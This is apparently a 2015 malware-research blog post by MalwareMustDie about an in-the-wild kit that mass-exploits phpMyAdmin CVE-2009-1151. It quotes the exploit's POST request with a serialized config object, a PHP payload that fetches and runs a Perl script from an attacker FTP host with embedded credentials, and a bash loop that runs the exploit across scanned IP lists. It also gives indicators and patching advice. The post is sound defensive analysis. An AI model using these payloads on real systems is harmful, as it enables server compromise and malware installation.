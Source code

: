 ```yaml
---
layout: post
title:  "phpMyAdmin PMA vuln CVE-2009-1151"
subtitle: "How CVE-2009-1151 is used in the wild"
date:   2015-01-17 23:34:01
category: itsec
---
```


Today we ([MalwareMustDie](https://twitter.com/MalwareMustDie/)) found this thread of automated exploiting phpMyAdmin instances which are                   vulnerable to [CVE-2009-1151](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1151). In short: this uses a false escaped vari                  able which can be used to run code which is then included in *config.inc.php*, see [this](http://www.gnucitizen.org/blog/cve-2009-1151-ph                  pmyadmin-remote-code-execution-proof-of-concept/) interesting blog post for additional information.

We found a pack of files that the morons used. They use a PHP script to run it in console and exploit remote systems, there a *POST* requ                  est is beeing used with a fake user agent and the exploit code:

        send_data('POST',$pma_setup_url,'action=lay_navigation&eoltype=unix&token='.$token.'&configuration='.urlencode('a:1:{i:0;O:10:"PM                  A_Config":1:{s:6:"source";s:'.strlen($ftp_code).':"'.$ftp_code.'";}}'),$pma_setup_url,$cookie_array,'Opera');

*$ftp_code* is: ```'ftp://andre:123456@87.230.10.109/fafico.ico';```, where *fafico.ico* contains that:

        <? system("cd /tmp;rm -rf *;wget ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl c.pdf;curl -O
        ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl c.pdf;fetch
        ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl
        c.pdf;rm -rf c.pdf;history -c;");exit?>

This will download more malware and beeing executed, tried to camouflage as a PDF in a very stupid way. The FTP account work anymore, so                   I could not gain an example.
The whole files are styled ```CTRL+C CTRL+V```. The morons where even to stupid to run the files in a proper way or edit them in a proper                   way, there are dozens of tiny *.sh* scripts which just run the PHP exploit script, for example:

        #!/bin/bash
        #php exploitx.php -a $1

        for i in `cat v`
        do
        echo Il furam pe nenea de access $i
        #php exploitx.php -a $i
        command='php exploitx.php -a '$i'';
        # run $command in background, sleep for our timeout then kill the process if it is running
        echo $command
        $command &
        pid=$!
        echo "sleep 10; kill $pid" |
        wait $pid &> /dev/null
        if [ $? -eq 143 ]; then
        echo "Trecem la urmatorul 10 secs reached."
        echo
        fi

        done

Also we found there some lists of vulnerable phpMyAdmin installs. Why they are vulnerable at this time to this old CVE? Because admins ar                  e not upgrading their system. With the latest phpMyAdmin version this wont work anymore, so why not update? The IP lists contain thousand                  s of servers, they just scanned hole IP ranges. *vuln.txt* as example contains 306615 vulnerable phpMyAdmin installs! Well, many are not                   reachable but the problem keeps, many outdated phpMyAdmin installs are aviable.

Also they are downloading an [ELF malware](https://www.virustotal.com/de/file/97093a1ef729cb954b2a63d7ccc304b18d0243e2a77d87bbbb94741a029                  0d762/analysis/1421518349/) which is fairly old and known, but **not** by *ClamAV* as an example.

Also included are public PHP classes which are misused to run their evil crap, like for guessing the OS and getting details about it: [OS                  _Guess](http://pear.php.net/reference/PEAR-1.6.2/PEAR/OS_Guess.html).

Following is a list of the IP's which host their bad scripts via FTP:

- 64.40.118.113 (Library Online Inc. Canada)
- 37.228.88.214 (JSC Mediasoft ekspert Organization Russia)
- 87.230.10.109 (Hosteurope GmbH Germany)
- 202.87.31.45 (AU1 Net Pty Ltd Organization Australia)

[Here](http://pastebin.com/rsLRHWSi) you can find some gathered information and additional information about this.

Inside is also the ELF **zmeu**, [VT link](https://www.virustotal.com/de/file/686cd26d834ee527b28da7649b40f7dbd2c1917cbe0e0cfb2a1b099b97a                  066ec/analysis/).
Hashes:

- MD5: d2bca500834c158db9b39fe8748027fd
- SHA256:

                686cd26d834ee527b28da7649b40f7dbd2c1917cbe0e0cfb2a1b099b97a066ec

It's a known [vulnerability scanner](http://en.wikipedia.org/wiki/ZmEu_%28vulnerability_scanner%29) for phpMyAdmin.

Interesting is also a string I found in the file *rand*, which is used to scan the IP ranges:

        # zmeu blackhat anti-sec

So we have a name?

## Conclusion

Administrators, take care of your systems and to upgrade them in time. Outdated versions are always more risky to use than current ones.                   Please have that always in mind. And don't use simple passwords, *123456* is no password, this are just digits!
Also important: **Change** the default directory name of your phpMyAdmin install, this will prevent to be found by their automated scanne                  rs.

MalwareMustDie!
Also mentioning our brilliant **ELF** team, great work, awesome interaction and sharp chop sticks! We add the spicy in your rice!
